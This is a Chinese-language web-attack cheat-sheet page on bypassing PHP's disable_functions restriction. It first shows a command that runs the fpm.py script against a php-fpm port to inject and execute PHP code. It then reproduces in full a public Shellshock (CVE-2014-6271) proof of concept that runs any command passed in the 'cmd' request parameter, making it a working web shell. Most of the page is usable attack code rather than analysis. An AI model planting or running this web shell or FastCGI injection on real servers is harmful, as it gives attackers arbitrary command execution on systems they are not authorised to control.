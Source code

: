 


**攻击 php-fpm/FastCGI bypass disable_functions 绕过**

Web Server 只是负责分发数据，那如果 Nginx 遇到 php 动态请求该怎么处理，这时就需要了解 PHP-FPM 和 FastCGI 了.
php-fpm是实现FastCGI协议的一个介于webserver(如nginx)和php解释器的一个程序，事实上php-fpm内嵌有php解释器。webserver将用户请求按照fastcgi协议打包发给php-fpm，经php解释器解析后将标准内容再返回给webserver。

PHP5.3 版本之后，PHP-FPM 是内置于 PHP 的，一般来说，尤其是在高并发的情况下，nginx + PHP-FPM 的组合要比 apache + mod_php 好很多.

使用 `fpm.py` 脚本:https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75

本地测试
```
python fpm.py -c '<?php echo `id`;exit;?>' -p 9999 127.0.0.1 /var/www/html/test.php
```





**PHP 5.x Shellshock Exploit**

> PHP < 5.6.2 'Shellshock' Safe Mode

[exploit-db上的Poc](https://www.exploit-db.com/exploits/35146)

**环境**：Debian 7 and CentOS 5 and 6

```php
# Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)
# Google Dork: none
# Date: 10/31/2014
# Exploit Author: Ryan King (Starfall)
# Vendor Homepage: http://php.net
# Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror
# Version: 5.* (tested on 5.6.2)
# Tested on: Debian 7 and CentOS 5 and 6
# CVE: CVE-2014-6271
<pre>
<?php echo "Disabled functions: ".ini_get('disable_functions')."n"; ?>
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
   if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
     $tmp = tempnam(".","data");
     putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
     // In Safe Mode, the user may only alter environment variables whose names
     // begin with the prefixes supplied by this directive.
     // By default, users will only be able to set environment variables that
     // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive is empty,
     // PHP will let the user modify ANY environment variable!
     mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
   }
   else return "Not vuln (not bash)";
   $output = @file_get_contents($tmp);
   @unlink($tmp);
   if($output != "") return $output;
   else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?>
```
